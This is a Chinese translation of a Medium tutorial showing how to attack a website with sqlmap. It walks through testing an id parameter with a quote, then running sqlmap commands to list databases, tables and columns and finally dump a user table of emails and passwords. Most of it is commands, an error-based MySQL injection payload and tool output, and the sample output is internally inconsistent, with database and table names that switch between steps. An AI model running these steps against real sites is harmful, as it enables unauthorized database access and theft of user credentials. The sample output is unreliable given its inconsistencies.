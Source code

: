 # 黑客如何利用 sqlmap 实施 SQL 注入攻击

> 原文：<https://medium.com/nerd-for-tech/how-hackers-perform-sql-injection-attack-using-sqlmap-dfb08519dc99?source=collection_archive---------2----------------------->

![](img/39f114028d01b669e66d2f71104a80be.png)

SQL(结构化查询语言)是一种用于管理存储在数据库中的数据的编程语言。这通常会被攻击者滥用，如果网站没有对用户输入进行净化，这种情况也会被利用。这些数据可能包括任意数量的项目，包括敏感的公司数据、用户列表或私人客户详细信息。

攻击者可以对易受攻击的网站执行恶意的 SQL 查询，并可以检索、编辑或删除这些表。这些查询可以由名为 sqlmap 的工具自动生成和执行。

sqlmap 是一个开源的渗透测试工具，它自动执行检测和利用 SQL 注入漏洞以及接管数据库服务器的过程。Sqlmap 甚至可以在一组特定的条件下写入特定的数据库。Sqlmap 带有强大的检测引擎和各种开关，有助于执行有效的攻击。

在这篇文章中，我们将攻击一个测试网站，我会引导你通过它。

假设我们要攻击这个易受攻击的站点，您可以使用下面的命令获得 sqlmap 中存在的开关的信息。

```
root@kali:~# sqlmap --help
```

所以我会黑一个测试网站，并演示给你看。

# 识别漏洞

首先，我们需要检查网站是否容易受到 SQL 攻击。

```
http://www.site.com/test.php?id=1
```

这是我们的测试网站，你可以看到网站公开了它不应该公开的参数 id。因此，我们可以通过在 ID 后面加上单引号来识别漏洞。

```
http://www.site.com/test.php?id=1'
```

如果网站对错误做出响应或做出任何不当行为，我们可以确认该网站容易受到 SQL 攻击。我们的网站出现了错误，因此容易受到 SQL 攻击。

# 攻击网站

既然我们知道网站易受攻击，我们可以继续攻击网站。

## 扫描网站

我们可以通过使用以下命令扫描网站来进行双重检查。

```
**$ python sqlmap.py -u "http://www.site.com/test.php?id=1"**
```

SQLmap 将使用其强大的搜索引擎扫描整个网站，它扫描目标系统上运行的操作系统版本，并返回以下信息。

```
**[*] starting at 12:10:33
[12:10:33] [INFO] resuming back-end DBMS 'mysql'
[12:10:34] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=51 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:10:37] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5**
```

我们知道该网站易受攻击，所以让我们搜索一个可用的数据库。

```
**$ python sqlmap.py -u "http://www.sitemap.com/test.php?id=1" --dbs**
```

该命令将扫描整个目标系统，并列出可用的数据库。

```
**[*] starting at 12:12:56
[12:12:56] [INFO] resuming back-end DBMS 'mysql'
[12:12:57] [INFO] testing connection to the target url
sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: id=51 AND (SELECT 1489 FROM(SELECT COUNT(*),CONCAT(0x3a73776c3a,(SELECT (CASE WHEN (1489=1489) THEN 1 ELSE 0 END)),0x3a7a76653a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)
---
[12:13:00] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:13:00] [INFO] fetching database names
[12:13:00] [INFO] the SQL query used returns 2 entries
[12:13:00] [INFO] resumed: information_schema
[12:13:00] [INFO] resumed: safecosmetics
available databases [2]:
[*] information_schema
[*] sedulousrams**
```

在这里，您可以看到它列出了可用的数据库 **sedulousrams** 似乎很有趣，所以让我们使用以下命令来查看该数据库中可用的表。

## 在数据库中查找表

让我们用下面的命令在 **sedulousrams** 数据库中搜索表。

```
**$ python sqlmap.py -u "http://www.site.com/test.php?id=1" --tables -D sedulousrams**
```

网站返回了以下输出

```
**[11:55:18] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[11:55:18] [INFO] fetching tables for database: 'safecosmetics'
[11:55:19] [INFO] heuristics detected web page charset 'ascii'
[11:55:19] [INFO] the SQL query used returns 216 entries
[11:55:20] [INFO] retrieved: acl_acl
[11:55:21] [INFO] retrieved: acl_acl_sections
[11:55:21] [INFO] retrieved: userinfo
........... more tables**
```

在这些返回的表中， **userinfo** 表似乎是一个有趣的表。因此，我们将使用下面的命令来看看它有哪些列。

## 在表中搜索列

我们将使用下面的命令来查看 **userinfo** 表中的列。

```
**$ python sqlmap.py -u "http://www.site.com/section.php?id=1" --columns -D sedulousrams -T userinfo**
```

输出

```
**[12:17:39] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:17:39] [INFO] fetching columns for table 'users' in database 'sedulousrams'
[12:17:41] [INFO] heuristics detected web page charset 'ascii'
[12:17:41] [INFO] the SQL query used returns 8 entries
[12:17:42] [INFO] retrieved: id
[12:17:43] [INFO] retrieved: int(11)
[12:17:45] [INFO] retrieved: name
[12:17:46] [INFO] retrieved: text
[12:17:47] [INFO] retrieved: password
[12:17:48] [INFO] retrieved: text
.......
[12:17:59] [INFO] retrieved: hash
[12:18:01] [INFO] retrieved: varchar(128)
Database: sedulousrams
Table: users
[8 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| email             | text         |
| id                | int(11)      |
| name              | text         |
| password          | text         |
+-------------------+--------------+**
```

它返回了一些有趣的信息，但是你知道下面的命令会返回比这个更多的信息，即用户 id 和密码。

## 扔掉桌子

下一个明显的步骤是转储表格，这将允许我们看到实际的电子邮件和密码！

命令

```
$ python sqlmap.py -u "http://www.site.com/section.php?id=51" --dump -D sedulousrams -T userinfo
```

这就是我们期待的精彩输出。

```
**+----+-----------+---------------+----------+
| id | name      |     email     | password | 
+----+-----------+---------------+----------+
| 1  | admin     |admin@site.com | imsmart  |        
+----+-----------+---------------+----------+**
```

在这里，你有它，电子邮件 id 和密码，因为你可以看到这是多么可怕的容易黑客攻击 SQL 易受攻击的网站，所以在它被黑客攻击之前保护你的网站！

感谢阅读